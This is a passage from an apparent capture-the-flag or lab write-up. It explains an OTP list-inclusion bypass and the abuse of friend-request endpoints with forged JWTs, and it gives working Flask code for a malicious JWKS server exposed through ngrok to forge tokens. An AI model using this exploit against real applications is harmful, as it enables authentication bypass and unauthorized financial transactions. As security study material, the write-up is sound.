 The OTP validation mechanism checks if the provided OTP is included in a list of OTPs (`otpList`). This inclusion-based check can be exploited by providing a list of possible OTPs, ensuring that at least one matches the stored OTP, thereby bypassing the exact match requirement.

The friend request endpoints allow users to send and accept friend requests. When combined with a forged JWT, these endpoints can establish trusted relationships between unauthorized users, facilitating unauthorized financial transactions.

### Exploiting the Vulnerabilities

#### Setting Up the Malicious JWKS Server

First, set up a malicious JWKS server that hosts your public key. This involves generating a new RSA key pair using the `Crypto` library. The public key is then encoded in Base64 URL format and included in a forged JWKS. You develop a simple Flask application that serves this forged JWKS on a specified port (e.g., `9000`). To make this server accessible over the internet, you use `ngrok` to tunnel the local Flask server, providing a publicly accessible URL that points to the JWKS server. This setup allows the application to fetch your malicious public key during JWT verification.

```python
from flask import Flask, jsonify
from jwt.utils import base64url_encode
from Crypto.PublicKey import RSA

app = Flask(__name__)

# Generate RSA Key Pair
key_pair = RSA.generate(2048)
pub_key = key_pair.publickey()
priv_key = key_pair.export_key('PEM')

# Prepare JWKS data
jwks_data = {
    'keys': [{
        'alg': 'RS256',
        'kty': 'RSA',
        'use': 'sig',
        'n': base64url_encode(int.to_bytes(pub_key.n, (pub_key.n.bit_length() + 7) // 8, 'big')).decode(),
        'e': base64url_encode(int.to_bytes(pub_key.e, (pub_key.e.bit_length() + 7) // 8, 'big')).decode(),
        'kid': 'unique-key-id',
    }]
}

@app.route('/.well-known/jwks.json', methods=['GET'])
def serve_jwks():
    return jsonify(jwks_data), 200

if __name__ == '__main__':
    app.run(port=9000)
```
